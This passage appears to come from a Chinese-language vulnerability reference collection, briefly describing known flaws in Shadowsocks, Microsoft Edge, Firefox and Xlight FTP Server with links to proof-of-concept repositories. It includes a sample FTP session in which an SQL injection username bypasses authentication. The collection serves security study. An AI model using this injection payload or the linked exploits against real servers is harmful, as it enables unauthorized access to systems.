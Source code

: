 ## shadowsocks

**对 Shadowsocks stream ciphers 的重定向攻击**
- https://github.com/edwardz246003/shadowsocks

---

# 浏览器

**资源**
- [vngkv123/aSiagaming](https://github.com/vngkv123/aSiagaming)

## Edge

**CVE-2018-8495 Microsoft Edge Hazardous URI Insufficient UI Warning Remote Code Execution Vulnerability**
- 简介

    Microsoft Windows Shell 中存在远程代码执行漏洞，该漏洞源于程序没有正确地处理 URLs。远程攻击者可借助特制的网站利用该漏洞在当前用户的上下文中执行任意代码。

- 文章
    - [Microsoft Edge Remote Code Execution](https://leucosite.com/Microsoft-Edge-RCE/)

## Firefox

**CVE-2019-9810**
- 简介

    Mozilla Firefox 66.0.1 之前版本中存在缓冲区溢出漏洞，该漏洞源于程序缺少边界检查。攻击者可利用该漏洞执行代码或造成拒绝服务。

- POC | Payload | exp
    - [0vercl0k/CVE-2019-9810](https://github.com/0vercl0k/CVE-2019-9810)

---

# 文件服务
## FTP

**Xlight FTP Server < 3.2.1 user 参数 SQL 注入漏洞**
- 简介

    在执行 ODBC 认证过程中 Xlight FTP Server 没有正确地过滤用户所提交的用户名和口令字段,远程攻击者可以用"OR ‘1’=’1’ ;#"替换用户名绕过认证登录到服务器.

- 示例
    ```bash
    220 Xlight FTP Server 3.2 ready...
    User (server-4:(none)) : \' OR \'1\'=\'1\' ;#
    331 Password required for \' OR \'1\'=\'1\' ;#
    Password : type anything
    230 Login OK
    ftp&gt;
    ```
